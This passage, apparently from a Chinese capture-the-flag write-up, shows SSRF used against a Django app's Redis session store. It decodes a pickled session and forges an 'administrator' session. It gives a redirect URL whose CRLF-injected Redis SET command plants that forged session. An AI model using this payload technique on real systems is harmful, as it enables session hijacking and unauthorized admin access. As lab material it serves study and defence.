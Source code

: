 看到返回：
```html
<!DOCTYPE html> <html lang="en"> <head> <meta charset="UTF-8"> <title></title> </head> <body> <p>我觉得可以</p> </body> </html>
```

那我们这里再次成功进行了ssrf漏洞，但是对redis的攻击类似与盲注，我们无法看到结果。

于是根据得到的**源码**，本地搭建环境，并安装[django-redis-sessions](https://github.com/martinrusev/django-redis-sessions)。

先访问本地，之后查看redis储存的键值对。

```
redis-cli
keys *
get xxxxxxxxxx
```

看到返回的字符串像是经过base64后的：`NzVjZmFlYmY5MmMzNmYyYjRiNDlmODIzYmVkMThjNWU1YWI0NzZkYTqABJUbAAAAAAAAAH2UjARuYW1llIwNMTkzMGVhMzFlNDFmMJRzLg==`

尝试解码：

```
➜  ~ ipython
Python 3.6.2 (default, Jul 20 2017, 03:52:27) 
Type 'copyright', 'credits' or 'license' for more information
IPython 6.2.1 -- An enhanced Interactive Python. Type '?' for help.

In [1]: import base64

In [2]: a = "NzVjZmFlYmY5MmMzNmYyYjRiNDlmODIzYmVkMThjNWU1YWI0NzZkYTqABJUbAAAAAAAAAH2U
   ...: jARuYW1llIwNMTkzMGVhMzFlNDFmMJRzLg=="

In [3]: base64.b64decode(a)
Out[3]: b'75cfaebf92c36f2b4b49f823bed18c5e5ab476da:\x80\x04\x95\x1b\x00\x00\x00\x00\x00\x00\x00}\x94\x8c\x04name\x94\x8c\r1930ea31e41f0\x94s.'
```

对比网页里的`hello, uesr: 1930ea31e41f0`，我们可以把用户名替换为`administrator`。

于是通过分析代码逻辑，修改sess.py，不产生随机字符串而是直接返回`administrator`。于是我们清除cookie，重新启动本地的django并监控redis：`redis-cli monitor`，得到`administrator`的序列化字符串`"OGIzY2Y0ZWFkOGI1MzExZDdlMDRkYjNiOGM0NWM2MGM3YWRhOWJjMDqABJUbAAAAAAAAAH2UjARuYW1llIwNYWRtaW5pc3RyYXRvcpRzLg=="`

所以我们可以通过http头部注入执行redis命令，创建用户名为`administrator`的键值对。

我们云服务器端的302跳转地址如下：`http://127.0.0.1%0d%0aset%206z78up4prpcderqrsq0rce35wwdnhg50%20OGIzY2Y0ZWFkOGI1MzExZDdlMDRkYjNiOGM0NWM2MGM3YWRhOWJjMDqABJUbAAAAAAAAAH2UjARuYW1llIwNYWRtaW5pc3RyYXRvcpRzLg==%0d%0ax-leftover:%20:6379/`,拆开看，即`set 6z78up4prpcderqrsq0rce35wwdnhg50 OGIzY2Y0ZWFkOGI1MzExZDdlMDRkYjNiOGM0NWM2MGM3YWRhOWJjMDqABJUbAAAAAAAAAH2UjARuYW1llIwNYWRtaW5pc3RyYXRvcpRzLg==`

但是这里实际上有一个坑，url太长会报错：`UnicodeError: label empty or too long`，报错的文件在`/usr/lib/pythonx.x/encodings/idna.py`，报错在这里：
```
        if 0 < len(label) < 64:
            return label
        raise UnicodeError("label empty or too long")
```
